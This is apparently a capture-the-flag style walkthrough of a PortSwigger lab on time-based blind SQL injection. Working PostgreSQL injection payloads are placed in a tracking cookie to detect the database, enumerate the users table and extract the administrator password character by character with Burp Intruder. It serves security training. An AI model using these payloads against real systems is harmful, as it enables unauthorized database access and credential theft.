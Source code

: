 # Lab: Blind SQL injection with time delays and information retrieval

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result: No visible difference in page, time delay can be caused
- user data is stored in table `users`, containing columns `username` and `password`
- Goal: Log in as administrator user

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=uD5bMjtaBP5WNste; session=npWR2WTlX6rdoW3hr8p71NaSzOy2QZzD`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

### Find database engine

Due to the type of vulnerability, on the page itself we can not distinguish whether the injection caused any reaction. This also makes finding an injection point more difficult, as simply injecting a single quote does not cause any reaction.

On the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), time dalay examples are given for multiple database engines. As we don't know which one to choose, simply attempt them one by one.

```text
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10) 
```

The important thing is that the query must remain valid, as if it errors out we will not get any indication of it and may assume that the injection failed and move to the next database engine, when in fact the query was never executed.

I try to form the following query (ABC being the value of the tracking cookie).

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'ABC' || (<CODE HERE>) || ''
```

The first character injected is the single quote after the ABC, than I concatenate the output of my code, followed by another concatenation with a single quote. For Oracle and PostgreSQL, the `||`s are used for concatenation, for Microsoft a `+` and for MySQL a single space.

Reaching the PostgreSQL syntax and injecting `'||(SELECT pg_sleep(10))||'`, the query takes a long time to finish: 10.090s. Usually the query takes about 100ms for me, so these additional 10 seconds come from the injection.

![Found injectable delay](img/confirm_injectable_delay.png)

### Confirm table and column names as well as username

Now that we know the database type, the next step are:

- confirm that the `user` table exists and
- contains the columns `username` and `password` and
- contains an entry for username `administrator`

I also cut down the delay to 3 seconds to make it more convenient.

`'||(SELECT pg_sleep(3) FROM users LIMIT 1)||'`

![Table exists](img/table_check.png)

`'||(SELECT pg_sleep(3)||username||password FROM users LIMIT 1)||'`

![Columns exist](img/columns_check.png)

`'||(SELECT pg_sleep(3)||username||password FROM users WHERE username='administrator')||'`

![Username exists](img/username_check.png)

All queries take slightly more than 3 seconds, whereas using different names for table or column names or using a different username, it returns immediately.

--> Table exists with username and password columns, containing an entry for `administrator` as username.

### Get length of password

Enumerating the password is now easy by extending the `WHERE` clause:

`'||(SELECT pg_sleep(3) FROM users WHERE username='administrator' AND LENGTH(password)=1)||'`

![cookie for password length check](img/length_of_password_cookie.png)

However, when attempting this in Burp Intruder, the following picture was shown, hinting that the password has every length between 20 and 30, with the exception of 21. Not very likely.

![resource pool issue](img/password_length_pool_issue.png)

By default, Burp Intruder creates 10 concurrent requests. This might cause an issue, so try again after creating a new resource pool with only a single concurrent request:

![create new resource pool](img/password_length_new_pool.png)

![correct result for password length](img/password_length.png)

Now the result looks like expected, and the password is 20 characters long.

### Enumerate password

To enumerate the password, it is basically the same step just with checking each character of the password instead of the length of the password. I use the same resource pool as above to avoid any issues with the concurrent requests.

`'||(SELECT pg_sleep(3) FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'`

![cookie for password enumeration](img/cookie_enumerate_password.png)

Using Burp Intruder again, with attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

![Enumerated password](img/password_result.png)

Password is `372het1lfsoftgkpojrj`

![success](img/success.png)

